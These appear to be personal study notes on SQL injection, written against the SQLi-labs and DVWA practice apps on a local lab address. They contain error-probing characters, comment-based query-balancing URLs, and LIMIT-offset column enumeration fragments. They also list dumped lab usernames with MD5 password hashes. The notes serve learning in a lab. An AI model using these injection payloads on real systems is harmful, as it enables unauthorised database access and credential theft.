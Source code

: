 LIMIT+1,1.   ---  first_name 

LIMIT+2,1)). --- last_name 

LIMIT+3,1)). ---- user 

LIMIT+4,1)).  --- password 

LIMIT+5,1)). -- avatar 

LIMIT+0,1)). ---- nothing 

Data of these columns 
user        password 
admin		5f4dcc3b5aa765d61d8327deb882cf99
gordonb		e99a18c428cb38d5f260853678922e03
1337 		8d3533d75ae2c3966d7e0d4fcc69216b
pablo




Learn SQLi Query Fixing 

1. identify sqli vulnerability 
'
"
\

2. balance the query 

http://192.168.1.103/sqli-labs-master/Less-1/?id=1 {front end }

select id ='id' where name ='xyz' {background}


how to fix 

http://192.168.1.103/sqli-labs-master/Less-1/?id=1'   --  

select id ='1'    --  ' where name ='xyz' {background}

Less-2 

in background 

select id=1  --  where name =xyz

how to fix query 

http://192.168.1.103/sqli-labs-master/Less-2/?id=1   --  

Less-3 

in background 
select id = ('1\') where name =('xyz')

--------------------------------------------
SQLI Through Get Based 

Less-1 

http://192.168.1.103/sqli-labs-master/Less-1/?id=1'   --   {balanced query }
